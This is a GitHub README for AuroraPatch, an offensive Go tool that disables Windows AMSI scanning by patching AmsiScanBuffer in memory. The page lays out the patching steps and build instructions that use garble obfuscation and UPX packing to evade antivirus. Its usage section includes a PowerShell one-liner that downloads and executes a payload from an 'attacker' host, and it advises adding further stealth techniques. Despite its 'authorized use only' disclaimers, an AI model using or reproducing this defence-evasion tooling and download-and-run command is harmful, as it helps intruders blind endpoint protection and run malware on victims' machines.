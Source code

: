 # AuroraPatch: AMSI Bypass Tool in Go

![Go](https://img.shields.io/badge/Go-1.24.2-blue)
![License](https://img.shields.io/github/license/grisuno/amsi)

**AuroraPatch** is a lightweight, offensive Go tool that bypasses Windows AMSI (Anti-Malware Scan Interface) by patching the `AmsiScanBuffer` function in memory. Designed for red teamers and security researchers, it allows execution of scripts that would otherwise be blocked by Defender or other AMSI-integrated AVs.

> ⚠️ **For authorized use only.**  
> This tool is intended for penetration testing, ethical hacking, and educational purposes.

---

## 🌟 What is AMSI?

AMSI (Anti-Malware Scan Interface) is a Windows security feature that enables antivirus solutions to scan scripts (PowerShell, WMI, etc.) in real time. AuroraPatch demonstrates how AMSI can be bypassed by directly modifying memory in the current process.

---

## 🔧 How It Works

AuroraPatch performs the following steps:
1. Loads `amsi.dll` dynamically.
2. Resolves the address of `AmsiScanBuffer`.
3. Changes memory permissions using `VirtualProtectEx`.
4. Patches the first byte of `AmsiScanBuffer` with `0xC3` (`ret` instruction).
5. Restores original memory permissions.

## Result:  
✅ `AmsiScanBuffer` returns immediately — no scan occurs.  
🛡️ Effective for bypassing AMSI during post-exploitation.

> 🔁 **In-memory only**: Patch is volatile and lasts only for the current process.

---

## ⚠️ Legal & Ethical Disclaimer

This tool is **strictly for educational and authorized security assessments**.  
Unauthorized use may violate laws or regulations.  
The author assumes **no liability** for misuse.

---

## 🛠️ Build Instructions

Compiles to a Windows executable using cross-compilation, obfuscation (`garble`), and compression (`UPX`).

### Prerequisites
- Go 1.24.2+
- MinGW-w64 (`x86_64-w64-mingw32-gcc`)
- `garble` (Go obfuscator)
- `upx`

Install `garble`:
```bash
go install github.com/burrowers/garble@latest
```
Build (from Linux/WSL)
```bash
make windows
```
or just:

```bash
./install.sh
```


Output:
amsi.exe  # Obfuscated, compressed Windows executable

- ✅ Binary is obfuscated with garble -literals -tiny and packed with UPX to reduce detection. 

## ▶️ Usage

Run on target Windows system:

```cmd
amsi.exe
```

```powershell
.\amsi.exe
```

Expected output:
```cmd
[+] AMSI patched: AmsiScanBuffer replaced with ret
AMSI bypass successful. Test with PowerShell or WMI scripts.
```
Now execute blocked scripts:
```powershell
powershell.exe -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')"
```

🔄 Patch only affects the current process. Restarting restores AMSI protection. 

## 🧹 Clean Build Artifacts

```bash
make clean
```

## 📂 Project Structure

```text
├── amsi.go        # Main logic: AMSI patching via Windows API
├── go.mod         # Go module definition
├── go.sum         # Dependency checksums
└── Makefile       # Cross-compilation and obfuscation rules
```

## 🧲 Technical Details
- Uses golang.org/x/sys/windows for low-level Windows API access.
- No external dependencies beyond standard Go and x/sys.
- Direct memory manipulation via:
- LoadLibrary / GetProcAddress
- OpenProcess
- VirtualProtectEx
- WriteProcessMemory

## 🛑 Detection & Evasion
- Static (AV)
- Reduced via
- garble + UPX
- Dynamic (EDR)
- May trigger on memory RWX, process injection
- Persistence
- None (in-memory only)

💡 Tip: Combine with other evasion techniques (sleep masking, API unhooking, etc.) for better stealth.

## 📚 References
- Microsoft AMSI Docs
- garble - Go Obfuscator
- UPX Executable Packer


![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54) ![Shell Script](https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white) ![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white) [![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Y8Y2Z73AV)
